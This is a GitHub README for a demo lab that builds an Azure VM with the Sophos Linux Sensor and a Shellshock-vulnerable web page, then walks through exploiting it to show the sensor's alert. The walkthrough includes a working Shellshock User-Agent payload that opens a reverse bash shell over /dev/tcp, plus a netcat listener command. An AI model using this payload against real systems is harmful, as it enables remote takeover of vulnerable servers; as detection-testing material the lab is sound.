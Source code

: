 # SophosLinuxSensor-Demo

## Author

* Github: [@spence-rat](https://github.com/spence-rat)
* LinkedIn: [@Spencer_Brown](https://www.linkedin.com/in/spencerbrowntx/)

## About
This repository seeks to build an image to Azure via Hashicorp Packer.
When a virtual machine is build off the image, it will already have the Sophos Linux Sensor running, as well as a docker container hosting
a http page vulnerable to shellshock RCE.

## Steps

## Packer
1. Adjust variables for your environment in variables.json
2. Adjust Sophos Central ID in SLS-env.sh
3. packer build --var-file=variables.json ubuntu.json
 
## Azure
1. Create a Network Security Group in Azure via CLI: az network nsg create --resource-group NAME_OF_RESOURCE_GROUP --location REGION --name NAME
2. Allow port 8080: az network nsg rule create --resource-group vse_east_rg --nsg-name opendev_nsg --name allow8080 --protocol tcp --priority 100 --destination-port-range 8080
3. Create the VM: az vm create --resource-group RESOURCE_GROUP --name NAME_OF_VM --admin-username ADMIN_USERNAME --admin-password "ADMIN_PASSWD" --image SLS-ubuntu --vnet-name YOUR_VNET --subnet YOUR_SUBNET --public-ip-sku Basic  --nsg NAME_OF_NSG_FROM_STEP_ONE
4. Record Public IP of VM for next steps.

## In a machine with Burp Suite installed.
1. Set up a reverse listener (ex. nc -lvnp 1234)
2. Set up Burp Suite to intercept requests.
   How to article: https://www.linuxfordevices.com/tutorials/linux/burpsuite-with-firefox
3. Visit http://IPofVM:8080/victim.cgi
4. Adjust user-agent in request to:
   () { ignored;};/bin/bash -i >& /dev/tcp/YOURIPADDRESS/PORTNUMBER 0>&1
   Make sure that the vm in azure can reach your ip address and the port is accessible.
5. Return to your reverse listener - you now have an interactive shell.
6. Login to your Azure VM and type in journalctl -u sophoslinuxsensor
7. The stdout of the Sophos Linux Sensor shows us an alert for Suspicious Interactive Shell!

## Screenshots

Launching Burp Suite Request
![image](https://user-images.githubusercontent.com/82817752/181119596-5b8959e7-62be-4999-872c-a446242ab876.png)
Getting a Reverse Shell
![image](https://user-images.githubusercontent.com/82817752/181119651-42fe7813-1482-4976-aeca-22cfe262dff6.png)
Sophos Linux Sensor Alert
![image](https://user-images.githubusercontent.com/82817752/181119681-eab5fc1c-5f72-49db-88b5-a467c6ba17e2.png)

## Show your support

Give a ⭐️ if this project helped you!

## References
https://github.com/SecurityWeekly/vulhub-lab/tree/master/bash/shellshock
